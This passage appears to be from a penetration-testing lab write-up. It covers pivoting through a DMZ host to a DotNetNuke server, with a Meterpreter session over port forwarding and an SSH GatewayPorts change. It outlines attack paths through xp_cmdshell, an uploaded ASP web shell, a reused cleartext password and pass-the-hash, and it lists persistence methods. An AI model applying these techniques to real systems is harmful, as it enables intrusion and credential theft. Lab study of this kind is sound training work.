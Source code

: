 ```bash
teams.exe
# Result: Meterpreter session through port forwarding
```

### ⚙️ SSH Configuration Requirements
```bash
# GatewayPorts configuration (if needed):
# Edit /etc/ssh/sshd_config on dmz01:
GatewayPorts yes  # Change from 'no' to 'yes'

# Reload SSH service:
service sshd reload

# Security consideration:
- Client approval required for config changes
- Document all modifications
- Revert changes post-assessment
- Note security implications in report
```

## 🎯 Multiple Access Vectors

### 🔄 Attack Path Diversity
```cmd
# Method 1: SQL Console → xp_cmdshell
DNN Admin → Settings → SQL Console → Command execution

# Method 2: File Upload → ASP Web Shell
DNN Admin → File Extensions → Upload newcmdasp.asp → RCE

# Method 3: Direct Credential Usage
hporter:Gr8hambino! → SMB/RDP/WinRM access

# Method 4: Pass-the-Hash
Administrator NT hash → Direct authentication
```

### 🛡️ Persistence Mechanisms
```bash
# Local administrator access:
- SAM database hash extraction
- Pass-the-hash authentication capability
- Local admin account compromise

# Domain account access:
- hporter:Gr8hambino! (cleartext)
- Domain Users group membership
- Internal AD enumeration capability

# System-level access:
- NT AUTHORITY\SYSTEM shell
- Registry access and modification
- Service manipulation capabilities
```
